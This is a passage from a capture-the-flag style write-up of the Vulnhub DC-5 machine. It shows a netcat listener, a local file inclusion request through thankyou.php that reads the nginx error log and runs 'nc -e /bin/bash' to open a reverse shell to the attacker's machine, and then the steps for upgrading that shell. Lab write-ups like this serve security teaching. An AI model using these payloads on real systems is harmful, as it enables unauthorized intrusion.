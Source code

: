 Now we have to start a netcat listener first.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-5]
└─$ sudo nc -lvp 53           
[sudo] password for emvee: 
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::53
Ncat: Listening on 0.0.0.0:53

```
As soon as the netcat listener is listening to any incomminc connection we have to trigger the reverse shell.
```
10.0.2.34/thankyou.php?file=../../../../../../var/log/nginx/error.log&cmd=nc -e /bin/bash 10.0.2.15 53
```

![Image](/assets/img/WriteUp/Vulnhub/DC5/Pasted image 20230327165954.png){: width="700" height="400" }

Forward the request within Burp Suite and watch the netcat listener.
## Initial access
After forwarding the request we should return to our netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-5]
└─$ sudo nc -lvp 53           
[sudo] password for emvee: 
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::53
Ncat: Listening on 0.0.0.0:53
Ncat: Connection from 10.0.2.34.
Ncat: Connection from 10.0.2.34:45823.

```
A connection has been established from our target. Now found out who we are.
```bash
whoami;id;hostname
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
dc-5

```
Okay, first things first... upgrade the shell a bit.
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@dc-5:~/html$ 
www-data@dc-5:~/html$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
<r/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp                   
www-data@dc-5:~/html$ export TERM=xterm-256color  
export TERM=xterm-256color  
www-data@dc-5:~/html$ alias ll='ls -lsaht --color=auto'  
alias ll='ls -lsaht --color=auto'  
```
Now we should background the process for a while with `CTRL + Z`.
```bash
www-data@dc-5:~/html$ ^Z
zsh: suspended  sudo nc -lvp 53
```
Now we should continue with the upgrading of the shell again.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-5]
└─$ stty raw -echo ; fg ; reset  
[1]  + continued  sudo nc -lvp 53


```